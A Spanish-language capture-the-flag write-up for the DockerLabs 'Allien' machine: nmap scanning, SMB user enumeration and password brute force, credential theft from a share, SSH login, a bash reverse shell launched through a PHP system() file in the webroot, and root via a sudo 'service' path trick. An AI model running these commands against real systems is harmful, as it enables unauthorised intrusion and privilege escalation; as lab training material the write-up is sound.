

# allien

Máquina "Allien" de [DockerLabs](../../../maquina-allien/https;/dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil



## Reconocimiento

Comenzamos con un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Sat Oct 12 22:41:23 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-12 22:41:23 -03 for 13s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrGDto+yIluWWc28CO9WLop39MgTQepDrYpDWvwqPgqpC2Ea8ZtGQCObWL21GlJITWAdFSZS0HaWuo1Wl9nZ84=
|   256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICk8CRYpvJnqRBsGb/f/ZxXJoTikc4EQdeCBsvENuMwD
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41501/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 51735/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SAMBASERVER<00>      Flags: <unique><active>
|   SAMBASERVER<03>      Flags: <unique><active>
|   SAMBASERVER<20>      Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   ESEEMEB.DL<00>       Flags: <group><active>
|   ESEEMEB.DL<1d>       Flags: <unique><active>
|   ESEEMEB.DL<1e>       Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2024-10-13T01:41:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 12 22:41:36 2024 -- 1 IP address (1 host up) scanned in 13.74 seconds
```

Al parecer tenemos lo siguiente:

`Una web(puerto 80)`

`OpenSSH(puerto 22)`

`SMB/samba(puerto 139 y 445)`

Si vamos a la web no se ve nada interesante, por lo que no la voy a mostrar xD.

Ahora podemos hacer lo siguiente para intentar enumerar usuarios de la máquina victima usando `rpcclient`:


Como vemos tenemos varios usuarios:

usuario1

usuario3

administrador

usuario2

satriani7

Ahora que tenemos usuarios, vamos a intentar hacer fuerza bruta con `netexec`:

```css
sudo netexec smb 172.17.0.2 -u 'satriani7' -p /opt/rockyou.txt --ignore-pw-decoding
```


Como vemos, podemos acceder al smb con la contraseña "50cent" y el usuario "satriani7".

Ahora usaremos `smbmap` para saber que ficheros tiene el smb y ver que podemos hacer:

```css
smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2
```

```css
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445	Name: 172.17.0.2          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	myshare                                           	READ ONLY	Carpeta compartida sin restricciones
	backup24                                          	READ ONLY	Privado
	home                                              	NO ACCESS	Produccion
	IPC$                                              	NO ACCESS	IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections
```

Tenemos dos carpetas útiles:

myshare

backup24

Sabiendo esto, nos conectaremos con `smbclient` de la siguiente manera:

```css
smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'
```

Ahora que estamos dentro, si vamos a "\Documents\Personal" veremos un archivo llamado "credentials.txt", este nos lo guardaremos con el comando `get credentials.txt`. Una vez hecho esto, veremos que dentro de ese archivo se encuentra la contraseña del usuario "administrador".

## INTRUSION

Simplemente nos conectaremos con `ssh` utilizando las credenciales que encontramos.

## ESCALADA DE PRIVILEGIOS

#### Administrador

Luego de buscar un rato, no se encuentra nada interesante, pero si pruebo en buscar los directorios o archivos que me pertenezcan con `find`, encuentro lo siguiente:

```css
find / -user administrador 2>/dev/null
```

```
/var/www/html
/var/www/html/info.php
```

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data", para hacerlo solo haremos lo siguiente:

Primero crearemos un archivo con lo siguiente dentro de "/var/www/html":

```css
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/443 0>&1
```

A este lo guardamos como "shell.sh" y le damos permisos con `chmod +x shell.sh`, luego creamos un archivo ".php" con lo siguiente:

```css
<?php
system('./shell.sh')
?>
```

Ahora solo nos queda escuchar con netcat en el puerto 443 en la máquina victima y entrar desde el navegador al archivo php:

```css
nc -nlvp 443
```

#### www-data

Ahora haremos un tratamiento de la tty: [Como hacerlo?](broken-reference)

Luego, si ejecutamos `sudo -l` vermos lo siguiente:

```css
www-data@e03c24d1c06b:/var/www/html$ sudo -l
Matching Defaults entries for www-data on e03c24d1c06b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on e03c24d1c06b:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@e03c24d1c06b:/var/www/html$   
```

Si nos fijamos en GTFOBins veremos que podemos escalar ejecutando lo siguiente:

```css
sudo service ../../../../bin/bash
```

(Agrega "../" dependiendo de en que directorio te encuentres, pero normalmente con eso basta)

#### Root


Gracias por leer....
